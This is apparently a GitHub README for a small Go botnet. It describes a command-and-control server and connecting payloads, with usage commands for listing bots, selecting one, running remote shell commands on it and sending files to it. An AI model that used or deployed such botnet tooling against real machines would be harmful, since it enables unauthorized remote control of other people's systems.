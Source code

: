 ## Go Botnet

Simple botnet written in GO. It features a command and control over cli and a botnet payload that communicates to the C&C over tcp.

# Usage:

 - Run the C&C:

```bash
botnet --listen
```

This starts up a C&C that listens on default port `9999`.

 - Connect a payload to the C&C:

```bash
botnet -port 9999
```

This will start a botnet payload that connects to the C&C on port `9999`.

- Now that we have a payload connected to our C&C we can run a view commands. You'll see the C&C prompt `<RL:#>`

show all payloads connected to C&C:

```bash
<RL:#> show
```

This will return the payload ids and addresses

```
ID: 57533aa3e5b07e4383951462 Address: 127.0.0.1:64635
ID: 57533aa3e5b07e4383951463 Address: 127.0.0.1:64634
```

- To communicate with the payload use the `use` command followed by the payloads address:

```bash
<RL:#> use 127.0.0.1:64346
```

You will notice now your prompt is changed to `<PL:#>`

- Execute a command in the remote server just type in a command:

```bash
<PL:#> ls -l
```

This will return the directory where the payload is running

- Send a file to the payload:

```bash
<PL:#> u: /path/to/file
```

This will send the specified file to the payload

- Exit out of the payload and go back to the main C&C

```bash
<PL:#> exit
```

You should see a message saying `payload exiting` and the prompt should be back to `<RL#>`
